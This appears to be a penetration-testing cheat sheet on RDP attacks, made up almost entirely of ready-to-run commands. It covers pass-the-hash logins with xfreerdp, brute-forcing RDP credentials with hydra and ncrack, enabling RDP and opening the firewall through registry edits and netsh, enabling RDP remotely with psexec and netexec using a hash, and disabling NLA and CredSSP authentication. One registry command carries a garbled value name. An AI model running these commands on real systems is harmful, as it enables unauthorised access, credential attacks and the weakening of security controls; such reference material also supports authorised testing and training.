 ## Remote desktop access
- `xfreerdp /u:[domain]\[username] /p:[password] /v:[host] +clipboard /drive:[Windows share name],[kali folder]`
- `xfreerdp /u:[domain]\[username] /pth:[hash] /v:[host] +clipboard /drive:[Windows share name],[kali folder]`
- `rdesktop -d [domain] -u [username] -p [password] [host]`

### Brute Force
- `hydra -l [username] -P [wordlist] -s [port] rdp://[host]`
- `ncrack -vv --user Administrator -P /root/passwords.txt rdp://10.10.10.10`

### Enable RDP
- `PS C:\> reg add "HKLM\System\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0x00000000 /f`
- OR
- `PS C:\> reg add "hklm\system\currentcontrolset\control\terminal server" /f /v fctions /t REG_DWORD /d 0`
- `PS C:\> netsh firewall set service remoteadmin enable`
- `PS C:\> netsh firewall set service remotedesktop enable`

#### Alternative
- `C:\> psexec \\machinename reg add "hklm\system\currentcontrolset\control\terminal server" /f /v fDenyTSConnections /t REG_DWORD /d 0`
- `kali@user$ netexec 10.10.10.10 -u username -H hashtext -M rdp -o ACTION=enable`

#### CredSSP erros
- `reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f`
- `reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp" /v UserAuthentication /t REG_DWORD /d 0 /f`

#### Disable NLA
- `PS > (Get-WmiObject -class "Win32_TSGeneralSetting" -Namespace root\cimv2\terminalservices -ComputerName "PC01" -Filter "TerminalName='RDP-tcp'").UserAuthenticationRequired`
- `PS > (Get-WmiObject -class "Win32_TSGeneralSetting" -Namespace root\cimv2\terminalservices -ComputerName "PC01" -Filter "TerminalName='RDP-tcp'").SetUserAuthenticationRequired(0)`
